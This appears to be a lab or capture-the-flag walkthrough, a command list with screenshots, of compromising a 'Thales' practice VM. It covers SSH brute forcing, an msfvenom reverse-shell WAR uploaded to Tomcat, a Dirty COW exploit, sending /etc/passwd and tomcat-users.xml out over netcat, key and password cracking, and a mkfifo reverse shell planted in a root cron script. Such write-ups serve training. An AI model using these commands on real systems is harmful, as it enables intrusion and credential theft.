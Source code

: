 ﻿# Telmora 192.168.56.100
# Andrea Zonnekus 18758119

sudo netdiscover -i eth0

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.001.png)

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.002.png)

sudo nmap -sV -sT -Pn -O 192.168.56.100 192.168.56.109 -oN os

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.003.png)



auxiliary/scanner/ssh/ssh\_enumusers

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.004.png)

locate pass | grep ssh

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.005.png)

hydra -L ssh\_users -P /usr/share/legion/wordlists/ssh-betterdefaultpasslist.txt ssh://192.168.56.109 -m ssh -e nsr

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.006.png)



dirb <http://192.168.56.109:8080>

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.007.png)


nikto -host http://192.168.56.109:8080 -Format text -o nikto

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.008.png)

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.009.png)

note file location

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.010.png)



auxiliary/scanner/http/tomcat\_mgr\_login

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.011.png)

note hostname, os version, arch, kernel – lines up with the nmap guess

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.012.png)

msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=192.168.56.101 LPORT=4444 -f war > shell.war

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.013.png)

ofcourse, nc -lvp 4444

undeploy current war

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.014.png)

redeploy ours & navigate to the shell

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.015.png)



ping our host

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.016.png)

sudo cp firefart\_dirtycow.c /var/www

python -m http.server 80

wget 192.168.56.101/firefart\_dirtycow.c

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.017.png)

python3 -c 'import pty; pty.spawn("/bin/bash")'

tty

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.018.png)

ls /etc

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.019.png)



nc -lvp 4444 > passwd

nc 192.168.56.101 4444 < /etc/passwd

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.020.png)


(file found before)

nc -lvp 4444 > tomcat\_users.xml

locate tomcat-users.xml

nc 192.168.56.101 4444 < /opt/tomcat/apache-tomcat-9.0.52/conf/tomcat-users.xml

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.021.png)



realise I need to actually compile the binaries

sudo gcc firefart\_dirtycow.c -o dirty32 -pthread

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.022.png)

chmod 777 dirty32

ls -lah | grep dirty32

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.023.png)


nc -lvp 44444 > id\_rsa

nc -lvp 44444 > id\_rsa.pub

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.024.png)

locate /usr/share/john/ssh2john.py

python /usr/share/john/ssh2john.py id\_rsa > decrypted

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.025.png)

locate rockyou

sudo john decrypted.hash --wordlist=/usr/share/wordlists/rockyou.txt

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.026.png)

su thales

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.027.png)

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.028.png)



ls

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.029.png)

echo "rm -rf /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.101 7777 >/tmp/f" >> backup.sh

tail backup.sh

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.030.png)

wait on port 7777

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.031.png)



cat root.txt

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.032.png)

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.033.png)

john passwd shadow --wordlist=/usr/share/wordlists/rockyou.txt

![](thales_steps/Aspose.Words.15d198b7-4908-4e03-b7e0-21071e5a5ccb.034.png)

